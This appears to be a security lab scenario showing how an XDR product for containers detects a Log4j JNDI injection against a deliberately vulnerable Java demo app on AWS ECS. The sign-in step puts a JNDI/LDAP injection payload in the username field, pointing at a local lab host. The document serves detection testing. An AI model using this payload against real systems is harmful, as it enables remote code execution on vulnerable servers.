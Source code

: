 # Scenario: Vision One XDR for Containers Detect JNDI Injection in HTTP Request (Log4j)

## Prerequisites

- Vision One XDR for Containers linked with Playground One VPC
- Playground One ECS Cluster (Any variant)
  - Running app: Java-Goof running on vulnerable Tomcat

## Exploiting

First, retrieve the load balancer DNS name

```sh
$ pgo -o ecs
```

Example output with ECS EC2:

```sh
cluster_name_ec2 = "playground-ecs-ec2"
loadbalancer_dns_ec2 = "playground-ecs-ec2-135067951.eu-central-1.elb.amazonaws.com"
```

If you are using ECS Fargate, the variable is named `loadbalancer_dns_fargate`.

### Exploit

Navigate to <http://playground-ecs-ec2-135067951.eu-central-1.elb.amazonaws.com/todolist>

Click `[Sign in]`

- Username: `${jndi:ldap://host.docker.internal:9999/Commons2}`
- Password: `does not matter`

Vision One Observed Attack Techniques:

![alt text](images/xdr_for_containers-ecs-log4j-01.png "Poc")

> ***Note:*** The currently deployed app is not vulnerable for Log4j, the technique from above still triggers the exploitation attempt.

